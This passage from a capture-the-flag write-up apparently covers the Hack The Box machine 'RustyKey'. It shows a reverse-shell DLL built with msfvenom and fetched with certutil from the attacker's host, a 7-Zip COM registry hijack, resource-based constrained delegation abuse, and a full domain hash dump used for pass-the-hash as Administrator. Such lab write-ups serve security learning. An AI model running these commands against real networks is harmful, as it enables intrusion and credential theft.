reg query HKCR\CLSID /s /f zip

HKEY_CLASSES_ROOT\CLSID\{23170F69-40C1-278A-1000-000100020000}
    (Default)    REG_SZ    7-Zip Shell Extension

HKEY_CLASSES_ROOT\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32
    (Default)    REG_SZ    C:\Program Files\7-Zip\7-zip.dll

HKEY_CLASSES_ROOT\CLSID\{888DCA60-FC0A-11CF-8F0F-00C04FD7D062}
    (Default)    REG_SZ    Compressed (zipped) Folder SendTo Target
    FriendlyTypeName    REG_EXPAND_SZ    @%SystemRoot%\system32\zipfldr.dll,-10226

HKEY_CLASSES_ROOT\CLSID\{888DCA60-FC0A-11CF-8F0F-00C04FD7D062}\DefaultIcon
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{888DCA60-FC0A-11CF-8F0F-00C04FD7D062}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{b8cdcb65-b1bf-4b42-9428-1dfdb7ee92af}
    (Default)    REG_SZ    Compressed (zipped) Folder Context Menu

HKEY_CLASSES_ROOT\CLSID\{b8cdcb65-b1bf-4b42-9428-1dfdb7ee92af}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{BD472F60-27FA-11cf-B8B4-444553540000}
    (Default)    REG_SZ    Compressed (zipped) Folder Right Drag Handler

HKEY_CLASSES_ROOT\CLSID\{BD472F60-27FA-11cf-B8B4-444553540000}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{E88DCCE0-B7B3-11d1-A9F0-00AA0060FA31}\DefaultIcon
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{E88DCCE0-B7B3-11d1-A9F0-00AA0060FA31}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{ed9d80b9-d157-457b-9192-0e7280313bf0}
    (Default)    REG_SZ    Compressed (zipped) Folder DropHandler

HKEY_CLASSES_ROOT\CLSID\{ed9d80b9-d157-457b-9192-0e7280313bf0}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

End of search: 14 match(es) found.
```

7-Zip should be a viable vector, generate reverse shell payload DLL

```console
root@kali:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=4445 -f dll -o /var/www/html/reverse.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: /var/www/html/reverse.dll
```

Download the reverse shell DLL:

```cmd
C:\Windows\system32>cd %TEMP%
cd %TEMP%

C:\Windows\Temp>certutil.exe /urlcache /f /split http://10.10.14.3/reverse.dll
certutil.exe /urlcache /f /split http://10.10.14.3/reverse.dll
****  Online  ****
  0000  ...
  2400
CertUtil: -URLCache command completed successfully.
```

Start a listener on Kali: `rlwrap nc -nlvp 4445`

Edit registry:

```cmd
C:\Windows\Temp>reg add HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32 /ve /d C:\Windows\Temp\reverse.dll /f
reg add HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32 /ve /d C:\Windows\Temp\reverse.dll /f
The operation completed successfully.
```

Reverse shell hooked as `mm.turner`:

```cmd
root@kali:~# rlwrap nc -nlvp 4445
listening on [any] 4445 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.75] 53470
Microsoft Windows [Version 10.0.17763.7434]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows>whoami
whoami
rustykey\mm.turner
```

## 5. Privilege Escalation

`mm.turner` is a member of `DELEGATIONMANAGER`, which has `AddAllowedToAct` on the domain controller


The `AddAllowedToAct` is used to abuse [resource-based constrained delegation (RBCD)](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd) by manipulating the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on a target computer object which allows it to impersonate users when accessing another service.

Allow delegation on `DC` to `IT-COMPUTER3$`:

```cmd
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```

`BACKUPADMIN` appears to be on the path to the domain:


Let's get a ticket for `BACKUPADMIN` through Kerberos delegation (S4U2self)

Refresh the TGT for `IT-COMPUTER3`:

```console
root@kali:~# impacket-getTGT rustykey.htb/IT-COMPUTER3:'Rusty88!' -dc-ip dc.rustykey.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in IT-COMPUTER3.ccache

root@kali:~# export KRB5CCNAME=IT-COMPUTER3.ccache
```

Get service ticket with `impacket-getST`:

```console
root@kali:~# impacket-getST -spn 'cifs/DC.rustykey.htb' -impersonate backupadmin -dc-ip 10.10.11.75 -k 'rustykey.htb/IT-COMPUTER3$:Rusty88!'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Impersonating backupadmin
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache

root@kali:~# export KRB5CCNAME=backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache
```

Use `impacket-secretsdump` to dump all domain hashes:

```console
root@kali:~# impacket-secretsdump -k -no-pass 'rustykey.htb/backupadmin@dc.rustykey.htb'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x94660760272ba2c07b13992b57b432d4
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3aac437da6f5ae94b01a6e5347dd920:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
RUSTYKEY\DC$:plain_password_hex:0c7fbe96b20b5afd1da58a1d71a2dbd6ac75b42a93de3c18e4b7d448316ca40c74268fb0d2281f46aef4eba9cd553bbef21896b316407ae45ef212b185b299536547a7bd796da250124a6bb3064ae48ad3a3a74bc5f4d8fbfb77503eea0025b3194af0e290b16c0b52ca4fecbf9cfae6a60b24a4433c16b9b6786a9d212c7aaefefa417fe33cc7f4dcbe354af5ce95f407220bada9b4d841a3aa7c6231de9a9ca46a0621040dc384043e19800093303e1485021289d8719dd426d164e90ee3db3914e3d378cc9e80560f20dcb64b488aa468c1b71c2bac3addb4a4d55231d667ca4ba2ad36640985d9b18128f7755b25
RUSTYKEY\DC$:aad3b435b51404eeaad3b435b51404ee:b266231227e43be890e63468ab168790:::
[*] DefaultPassword
RUSTYKEY\Administrator:Rustyrc4key#!
[*] DPAPI_SYSTEM
dpapi_machinekey:0x3c06efaf194382750e12c00cd141d275522d8397
dpapi_userkey:0xb833c05f4c4824a112f04f2761df11fefc578f5c
[*] NL$KM
 0000   6A 34 14 2E FC 1A C2 54  64 E3 4C F1 A7 13 5F 34   j4.....Td.L..._4
 0010   79 98 16 81 90 47 A1 F0  8B FC 47 78 8C 7B 76 B6   y....G....Gx.{v.
 0020   C0 E4 94 9D 1E 15 A6 A9  70 2C 13 66 D7 23 A1 0B   ........p,.f.#..
 0030   F1 11 79 34 C1 8F 00 15  7B DF 6F C7 C3 B4 FC FE   ..y4....{.o.....
NL$KM:6a34142efc1ac25464e34cf1a7135f34799816819047a1f08bfc47788c7b76b6c0e4949d1e15a6a9702c1366d723a10bf1117934c18f00157bdf6fc7c3b4fcfe
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f7a351e12f70cc177a1d5bd11b28ac26:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f4ad30fa8d8f2cfa198edd4301e5b0f3:::
rustykey.htb\rr.parker:1137:aad3b435b51404eeaad3b435b51404ee:d0c72d839ef72c7d7a2dae53f7948787:::
rustykey.htb\mm.turner:1138:aad3b435b51404eeaad3b435b51404ee:7a35add369462886f2b1f380ccec8bca:::
rustykey.htb\bb.morgan:1139:aad3b435b51404eeaad3b435b51404ee:44c72edbf1d64dc2ec4d6d8bc24160fc:::
rustykey.htb\gg.anderson:1140:aad3b435b51404eeaad3b435b51404ee:93290d859744f8d07db06d5c7d1d4e41:::
rustykey.htb\dd.ali:1143:aad3b435b51404eeaad3b435b51404ee:20e03a55dcf0947c174241c0074e972e:::
rustykey.htb\ee.reed:1145:aad3b435b51404eeaad3b435b51404ee:4dee0d4ff7717c630559e3c3c3025bbf:::
rustykey.htb\nn.marcos:1146:aad3b435b51404eeaad3b435b51404ee:33aa36a7ec02db5f2ec5917ee544c3fa:::
rustykey.htb\backupadmin:3601:aad3b435b51404eeaad3b435b51404ee:34ed39bc39d86932b1576f23e66e3451:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:b266231227e43be890e63468ab168790:::
Support-Computer1$:1103:aad3b435b51404eeaad3b435b51404ee:5014a29553f70626eb1d1d3bff3b79e2:::
Support-Computer2$:1104:aad3b435b51404eeaad3b435b51404ee:613ce90991aaeb5187ea198c629bbf32:::
Support-Computer3$:1105:aad3b435b51404eeaad3b435b51404ee:43c00d56ff9545109c016bbfcbd32bee:::
Support-Computer4$:1106:aad3b435b51404eeaad3b435b51404ee:c52b0a68cb4e24e088164e2e5cf2b98a:::
Support-Computer5$:1107:aad3b435b51404eeaad3b435b51404ee:2f312c564ecde3769f981c5d5b32790a:::
Finance-Computer1$:1118:aad3b435b51404eeaad3b435b51404ee:d6a32714fa6c8b5e3ec89d4002adb495:::
Finance-Computer2$:1119:aad3b435b51404eeaad3b435b51404ee:49c0d9e13319c1cb199bc274ee14b04c:::
Finance-Computer3$:1120:aad3b435b51404eeaad3b435b51404ee:65f129254bea10ac4be71e453f6cabca:::
Finance-Computer4$:1121:aad3b435b51404eeaad3b435b51404ee:ace1db31d6aeb97059bf3efb410df72f:::
Finance-Computer5$:1122:aad3b435b51404eeaad3b435b51404ee:b53f4333805f80406b4513e60ef83457:::
IT-Computer1$:1123:aad3b435b51404eeaad3b435b51404ee:fe60afe8d9826130f0e06cd2958a8a61:::
IT-Computer2$:1124:aad3b435b51404eeaad3b435b51404ee:73d844e19c8df244c812d4be1ebcff80:::
IT-Computer3$:1125:aad3b435b51404eeaad3b435b51404ee:b52b582f02f8c0cd6320cd5eab36d9c6:::
IT-Computer4$:1126:aad3b435b51404eeaad3b435b51404ee:763f9ea340ccd5571c1ffabf88cac686:::
IT-Computer5$:1127:aad3b435b51404eeaad3b435b51404ee:1679431d1c52638688b4f1321da14045:::
[*] Kerberos keys grabbed
Administrator:des-cbc-md5:e007705d897310cd
krbtgt:aes256-cts-hmac-sha1-96:ee3271eb3f7047d423c8eeaf1bd84f4593f1f03ac999a3d7f3490921953d542a
krbtgt:aes128-cts-hmac-sha1-96:24465a36c2086d6d85df701553a428af
krbtgt:des-cbc-md5:d6d062fd1fd32a64
rustykey.htb\rr.parker:des-cbc-md5:8c5b3b54b9688aa1
rustykey.htb\mm.turner:aes256-cts-hmac-sha1-96:707ba49ed61c6575bfe9a3fd1541fc008e8803bfb0d7b5d21122cc464f39cbb9
rustykey.htb\mm.turner:aes128-cts-hmac-sha1-96:a252d2716a0b365649eaec02f84f12c8
rustykey.htb\mm.turner:des-cbc-md5:a46ea77c13854945
rustykey.htb\bb.morgan:des-cbc-md5:d6ef5e57a2abb93b
rustykey.htb\gg.anderson:des-cbc-md5:8923850da84f2c0d
rustykey.htb\dd.ali:des-cbc-md5:613da45e3bef34a7
rustykey.htb\ee.reed:des-cbc-md5:2fc46d9b898a4a29
rustykey.htb\nn.marcos:aes256-cts-hmac-sha1-96:53ee5251000622bf04e80b5a85a429107f8284d9fe1ff5560a20ec8626310ee8
rustykey.htb\nn.marcos:aes128-cts-hmac-sha1-96:cf00314169cb7fea67cfe8e0f7925a43
rustykey.htb\nn.marcos:des-cbc-md5:e358835b1c238661
rustykey.htb\backupadmin:des-cbc-md5:625e25fe70a77358
DC$:des-cbc-md5:915d9d52a762675d
Support-Computer1$:aes256-cts-hmac-sha1-96:89a52d7918588ddbdae5c4f053bbc180a41ed703a30c15c5d85d123457eba5fc
Support-Computer1$:aes128-cts-hmac-sha1-96:3a6188fdb03682184ff0d792a81dd203
Support-Computer1$:des-cbc-md5:c7cb8a76c76dfed9
Support-Computer2$:aes256-cts-hmac-sha1-96:50f8a3378f1d75df813db9d37099361a92e2f2fb8fcc0fc231fdd2856a005828
Support-Computer2$:aes128-cts-hmac-sha1-96:5c3fa5c32427fc819b10f9b9ea4be616
Support-Computer2$:des-cbc-md5:a2a202ec91e50b6d
Support-Computer3$:aes256-cts-hmac-sha1-96:e3b7b8876ac617dc7d2ba6cd2bea8de74db7acab2897525dfd284c43c8427954
Support-Computer3$:aes128-cts-hmac-sha1-96:1ea036e381f3279293489c19cfdeb6c1
Support-Computer3$:des-cbc-md5:c13edcfe4676f86d
Support-Computer4$:aes256-cts-hmac-sha1-96:1708c6a424ed59dedc60e980c8f2ab88f6e2bb1bfe92ec6971c8cf5a40e22c1e
Support-Computer4$:aes128-cts-hmac-sha1-96:9b6d33ef93c69721631b487dc00d3047
Support-Computer4$:des-cbc-md5:3b79647680e0d57a
Support-Computer5$:aes256-cts-hmac-sha1-96:464551486df4086accee00d3d37b60de581ee7adad2a6a31e3730fad3dfaed42
Support-Computer5$:aes128-cts-hmac-sha1-96:1ec0c93b7f9df69ff470e2e05ff4ba89
Support-Computer5$:des-cbc-md5:73abb53162d51fb3
Finance-Computer1$:aes256-cts-hmac-sha1-96:a57ce3a3e4ee34bc08c8538789fa6f99f5e8fb200a5f77741c5bf61b3d899918
Finance-Computer1$:aes128-cts-hmac-sha1-96:e62b7b772aba6668af65e9d1422e6aea
Finance-Computer1$:des-cbc-md5:d9914cf29e76f8df
Finance-Computer2$:aes256-cts-hmac-sha1-96:4d45b576dbd0eab6f4cc9dc75ff72bffe7fae7a2f9dc50b5418e71e8dc710703
Finance-Computer2$:aes128-cts-hmac-sha1-96:3fd0dd200120ca90b43af4ab4e344a78
Finance-Computer2$:des-cbc-md5:23ef512fb3a8d37c
Finance-Computer3$:aes256-cts-hmac-sha1-96:1b2280d711765eb64bdb5ab1f6b7a3134bc334a3661b3335f78dd590dee18b0d
Finance-Computer3$:aes128-cts-hmac-sha1-96:a25859c88f388ae7134b54ead8df7466
Finance-Computer3$:des-cbc-md5:2a688a43ab40ecba
Finance-Computer4$:aes256-cts-hmac-sha1-96:291adb0905f3e242748edd1c0ecaab34ca54675594b29356b90da62cf417496f
Finance-Computer4$:aes128-cts-hmac-sha1-96:81fed1f0eeada2f995ce05bbf7f8f951
Finance-Computer4$:des-cbc-md5:6b7532c83bc84c49
Finance-Computer5$:aes256-cts-hmac-sha1-96:6171c0240ae0ce313ecbd8ba946860c67903b12b77953e0ee38005744507e3de
Finance-Computer5$:aes128-cts-hmac-sha1-96:8e6aa26b24cdda2d7b5474b9a3dc94dc
Finance-Computer5$:des-cbc-md5:92a72f7f865bb6cd
IT-Computer1$:aes256-cts-hmac-sha1-96:61028ace6c840a6394517382823d6485583723f9c1f98097727ad3549d833b1e
IT-Computer1$:aes128-cts-hmac-sha1-96:7d1a98937cb221fee8fcf22f1a16b676
IT-Computer1$:des-cbc-md5:019d29370ece8002
IT-Computer2$:aes256-cts-hmac-sha1-96:e9472fb1cf77df86327e5775223cf3d152e97eebd569669a6b22280316cf86fa
IT-Computer2$:aes128-cts-hmac-sha1-96:a80fba15d78f66477f0591410a4ffda7
IT-Computer2$:des-cbc-md5:622f2ae961abe932
IT-Computer3$:aes256-cts-hmac-sha1-96:7871b89896813d9e4a732a35706fe44f26650c3da47e8db4f18b21cfbb7fbecb
IT-Computer3$:aes128-cts-hmac-sha1-96:0e14a9e6fd52ab14e36703c1a4c542e3
IT-Computer3$:des-cbc-md5:f7025180cd23e5f1
IT-Computer4$:aes256-cts-hmac-sha1-96:68f2e30ca6b60ec1ab75fab763087b8772485ee19a59996a27af41a498c57bbc
IT-Computer4$:aes128-cts-hmac-sha1-96:181ffb2653f2dc5974f2de924f0ac24a
IT-Computer4$:des-cbc-md5:bf58cb437340cd3d
IT-Computer5$:aes256-cts-hmac-sha1-96:417a87cdc95cb77997de6cdf07d8c9340626c7f1fbd6efabed86607e4cfd21b8
IT-Computer5$:aes128-cts-hmac-sha1-96:873fd89f24e79dcd0affe6f63c51ec9a
IT-Computer5$:des-cbc-md5:ad5eec6bcd4f86f7
[*] Cleaning up...
[*] Stopping service RemoteRegistry
[-] SCMR SessionError: code: 0x41b - ERROR_DEPENDENT_SERVICES_RUNNING - A stop control has been sent to a service that other running services are dependent on.
[*] Cleaning up...
[*] Stopping service RemoteRegistry
```

Connect as `Administrator` and get root flag:

```console
root@kali:~# impacket-getTGT rustykey.htb/Administrator -hashes aad3b435b51404eeaad3b435b51404ee:f7a351e12f70cc177a1d5bd11b28ac26
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in Administrator.ccache

root@kali:~# export KRB5CCNAME=Administrator.ccache

root@kali:~# evil-winrm -i dc.rustykey.htb -r rustykey.htb

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
```

```pwsh
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
rustykey\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
1476a94ba4b9727ab932c9b2840ece73
```

## 6. Summary


